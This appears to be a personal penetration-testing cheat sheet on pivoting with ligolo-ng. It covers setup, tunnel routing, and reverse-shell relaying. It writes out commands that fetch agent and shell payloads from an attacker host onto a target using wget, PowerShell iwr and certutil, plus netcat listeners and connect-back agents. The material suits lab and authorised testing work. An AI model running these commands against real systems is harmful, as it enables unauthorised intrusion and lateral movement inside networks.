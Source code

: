 Pivoting tool 
https://github.com/nicocha30/ligolo-ng/releases
Resources 
https://4pfsec.com/ligolo#heading-terminologies
https://www.youtube.com/watch?v=DM1B8S80EvQ
https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5

## Install
Can now be installed with apt
```
sudo apt install ligolo-ng
```

ligolo.sh
```
#!/usr/bin/bash

RED="\e[31m"
GREEN="\e[32m"
ENDCOLOR="\e[0m"

echo -e "${GREEN}Run in the same folder that proxy is in${ENDCOLOR}"
echo -e "${RED}Remember when you get a hit type session then start on ligolo interface${ENDCOLOR}"

read -p "Internal network (ex 10.10.10.0/24)   " ip
sudo ip tuntap add user $USER mode tun ligolo
sudo ip link set ligolo up
sudo ip route add $ip dev ligolo
ligolo-proxy -selfcert
```

```
chmod +x ligolo.sh && ./ligolo.sh
```

```
session
```

```
1
```

```
start
```

## Kali Steps for installation 
 
 ```bash
 cd /opt  
 ```

```bash
sudo mkdir ligolo 
``` 

```bash
cd ligolo
```

# Agent Links
### Linux
```bash
sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.5/ligolo-ng_agent_0.7.5_linux_amd64.tar.gz
```

### Windows
```bash
sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.5/ligolo-ng_agent_0.7.5_windows_amd64.zip
```

# Server Links

###Linux

```bash
sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.5/ligolo-ng_proxy_0.7.5_linux_amd64.tar.gz
```

### Windows

```bash
sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.5/ligolo-ng_proxy_0.7.5_windows_amd64.zip
```

2. To unzip 

```bash
sudo tar -xvf ligolo-ng_proxy_0.7.5_linux_amd64.tar.gz
```

```bash
sudo tar -xvf ligolo-ng_agent_0.7.5_linux_amd64.tar.gz
```

``` bash 
sudo unzip ligolo-ng_agent_0.7.5_windows_amd64.zip
```

```bash
sudo unzip ligolo-ng_proxy_0.7.5_windows_amd64.zip
```

```bash
sudo git clone https://git.zx2c4.com/wintun
```

Move the tools to the directory you are working from 

```sh
cp -r /opt/ligolo .
```

3. When using Linux, you need to create a tun interface on the Proxy Server (C2)
```bash
sudo ip tuntap add user kali mode tun ligolo
``` 

```bash
sudo ip link set ligolo up
```

4. Run proxy on Kali
NOTE: You can change the port to 443 if not in use 

``` bash
./proxy -selfcert -laddr $KALI:11601 
```

Use 443 for windows 
``` bash
./proxy -selfcert -laddr $KALI:443
```

6. Set up the python server 
```bash
sudo python3 -m http.server 80
```

7. Grab the agent file on the Target Machine 
Agent for Linux 
```bash
wget http://$KALI/agent 
```
Agent for Windows

If Powershell is available use 

```powershell
iwr -uri http://$KALI:80/agent.exe -Outfile agent.exe
```

cmd 

```bash 
certutil -urlcache -f http://$KALI:80/agent.exe agent.exe
```

8. Establish the connection with the agent

NOTE: You can change the port to 443 if not in use

For Linux
```bash
./agent -connect $KALI:11601 -ignore-cert
```

For Windows 
```bash
.\agent.exe -connect $KALI:443 -ignore-cert
```

9. Now type
```
session
```

11. in ligolo-ng’s interface, this will list all our sessions and we can specify the one we want either by number or using the arrow keys.

12.  Once we have determine the target network we want to pivot run this command on our Kali 
```bash
sudo ip route add 0.0.0.0/24 dev ligolo
```

11. We can confirm that the route has been added by typing 
```bash
ip route list
```

12. Go back to your ligolo interface running and type `session` and select the machine with the new tunnel and type 
```
start
```

14. We can now access the network and do enumeration and scanning

# Reverse Shells
1. Creates a listener on the machine where we're running the agent at port 1234 and redirects the traffic to port 4444 on our machine. You can use other ports, of course.

```bash
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
```

2. Set listener in Kali 
```bash
sudo rlwrap -cAr nc -lvnp 4444 

```

3. set a listener pointing to the python HTTP server on the compromised machine
```sh
listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:80
```

4. To verify how many listener you have run the following 
```sh
listener_list
``` 

5.  Transfer our payload or files as desired
```
iwr -uri http://$KALI:80/shell.exe -Outfile shell.exe
```

6.  To set up a redirect to pass our files to another host on the internal network we redirect to the same port
7. 
```bash
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

```bash
listener_list
```

# Internal Services 


Now let’s start the “**proxy**” in our Kali machine:

``` bash
./proxy -selfcert -laddr $KALI:11601   
```     

Now we will connect to our proxy from our client:

chmod +x agent   
``` bash
./agent -connect $KALI:11601 --ignore-cert  
```


We should see a connection:  
``` bash
session
```  

``` bash
1 
```

``` bash
start  
```


We have selected the session and started the tunnel. Most of the job is done. If we try now to access the local services of our agent, we will not be able to do so. In order to achieve that, we need to add a route for the ip “**240.0.0.1/23**”:

``` bash
sudo ip route add 240.0.0.1 dev ligolo 
```

At this point, let’s try an nmap scan specifying this IP:

``` bash
nmap 240.0.0.1 -sV                                    
```

# NOTE: IF YOU HAVE A DUAL HONED BOX WITH A PRIVATE IP CREATE AN IP ROUTE WITH THAT IP!!!!!!

```
sudo ip route add 10.10.126.254 dev ligolo 
```

